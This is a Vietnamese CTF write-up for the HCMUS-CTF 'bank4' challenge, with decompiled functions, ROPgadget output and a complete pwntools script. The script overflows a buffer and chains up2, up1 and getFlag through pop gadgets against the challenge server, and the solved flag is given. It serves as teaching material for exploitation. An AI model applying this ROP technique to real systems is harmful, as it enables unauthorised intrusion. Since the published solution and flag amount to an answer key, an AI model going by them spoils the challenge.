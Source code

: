 ## ⚡ [bank4](https://ctf.hcmus.edu.vn/challenges#bank4-11)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/136-pts-brightgreen.svg)](https://img.shields.io/badge/136-pts-brightgreen.svg)

Tác giả: `xikhud`

Tags: `pwn` `bof` `rop`

### Summary

Chạy thử chương trình thì thấy nó giống challange `bank1` trước đó, lần này thì ta có thêm file binary.

Tìm thấy hàm các hàm như sau:

```c
void getFlag(void)
{
  if ((o1 == 0) || (o2 == 0)) {
    system("echo \"hcmasd-cft{nah_nah_nah_not_today}\"");
  }
  else {
    system("cat flag.txt");
  }
  return;
}

void up1(int arg1,int arg2)
{
  if (((o2 != 0) && (arg1 == 0x1337)) && (arg2 == 0xdead)) {
    o1 = 1;
  }
  return;
}

void up2(int arg1,int arg2,int arg3)
{
  if ((arg1 == arg2) && (arg3 == 0x12345678)) {
    o2 = 1;
  }
  return;
}
```

### Exploit

Dùng ROP để có thể bypass điều kiện trong hàm `getFlag` bằng cách gọi các hàm `up2` và `up1` trước.

Hàm `up2` cần 3 tham số, nên ta phải pop 3 tham số này ra khỏi stack trước khi có thể gọi hàm tiếp theo:

```bash
$ ROPgadget --binary bank4 --only 'pop|ret' | grep 'eax'
0x0809f87a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08056794 : pop eax ; pop edx ; pop ebx ; ret # useful
0x080a9236 : pop eax ; ret
0x0809f879 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

Vậy gadget `0x08056794 : pop eax ; pop edx ; pop ebx ; ret` có thể sử dụng được.

Tương tự, hàm `up1` cần 2 tham số:

```bash
$ ROPgadget --binary bank4 --only 'pop|ret' | grep 'edx'
0x08056794 : pop eax ; pop edx ; pop ebx ; ret
0x0806e6ca : pop ebx ; pop edx ; ret # useful
0x08056795 : pop edx ; pop ebx ; ret
0x0806e6f1 : pop edx ; pop ecx ; pop ebx ; ret
0x0806e6cb : pop edx ; ret
```

Vậy gadget `0x0806e6ca : pop ebx ; pop edx ; ret` có thể sử dụng được.

**Xây dựng payload.**

- Offset của buffer là 80:
  `payload = "A"*80`

- Gọi hàm up2:
  Hàm này yêu cầu 2 biến ban đầu là giống nhau, biến thứ 3 có giá trị `0x12345678`.
  `payload += up2_addr + pop_eax_edx_ebx_ret + arg2_1 + arg2_2 + 0x12345678` 

  Trong đó, `arg2_1 = arg2_2 = 0x080da724`

- Gọi hàm up1 tương tự:
  `payload += up1_addr + pop_ebx_edx_ret + arg1_1 + arg1_2` 

  Trong đó, `arg1_1=0xffff1337`, `arg1_2=0xffffdead`. Để ý rằng ta thêm `0xffff` vào 2 byte đầu để tránh lỗi đọc kí tự null của `gets()`.

- Gọi hàm `getFlag`:
  `payload += getFlag_addr`
  
### Code

```python
#!/usr/bin/env python3

from pwn import *

bin = ELF("./bank4")

offset = 80

up1_addr = bin.sym["up1"]
arg1_1 = 0xffff1337
arg1_2 = 0xffffdead

up2_addr = bin.sym["up2"]
arg2_1 = arg2_2 = 0x080da724
arg2_3 = 0x12345678

getFlag_addr = bin.sym["getFlag"]

pop_ebx_edx_ret = 0x0806e6ca
pop_eax_edx_ebx_ret = 0x08056794

pl = b'A'*offset
pl = pl + p32(up2_addr) + p32(pop_eax_edx_ebx_ret) + p32(arg2_1) + p32(arg2_2) + p32(arg2_3)
pl = pl + p32(up1_addr) + p32(pop_ebx_edx_ret) + p32(arg1_1) + p32(arg1_2)
pl = pl + p32(getFlag_addr)
  
r = remote("61.28.237.24", 30205)

s = r.recvuntil('[+] Please enter your name: ')

r.sendline(pl)
r.sendline(b'cat flag.txt;echo ;exit')

r.interactive()
```

📫 Flag: **`HCMUS-CTF{trungdeptrai}`**

---
*[Back to table of contents](../README.md)*
